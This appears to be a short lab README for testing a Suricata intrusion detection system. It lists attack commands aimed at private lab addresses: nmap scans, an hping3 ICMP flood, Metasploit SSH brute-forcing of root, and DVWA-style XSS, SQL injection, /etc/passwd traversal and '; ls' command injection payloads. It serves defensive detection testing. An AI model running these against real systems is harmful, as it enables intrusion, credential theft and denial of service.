 # Lab Suricata - Tests IDS
## 1. Network-Based Attacks

### NMAP TCP SYN Scan :
```bash
nmap -sS 192.168.100.10
```

### NMAP UDP Scan :
```bash
nmap -sU 192.168.100.10
```

### ICMP Flood :
```bash
sudo hping3 -1 --flood 192.168.100.10
```

### Tunnel ICMP :
```bash
ping -s 2000 192.168.100.10   
```

### SSH bruteforce :
```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.100.12
set USERNAME root
set PASSWORD /usr/share/wordlists/rockyou.txt
run
```

## 2. Web-based



### XSS (Cross-Site Scripting)
```bash
<script>alert("test")</script>

```

### SQL Injection
```bash
http://192.168.100.10/vulnerabilities/sqli/?id=1' OR 1=1#&Submit=Submit

```

### Directory Traversal
```bash
http://192.168.100.10/vulnerabilities/fi/?page=../../../../etc/passwd

```

### File Inclusion
```bash
http://192.168.100.10/vulnerabilities/fi/?page=../../../../etc/passwd

```

### Command Injection
```bash
; ls
```
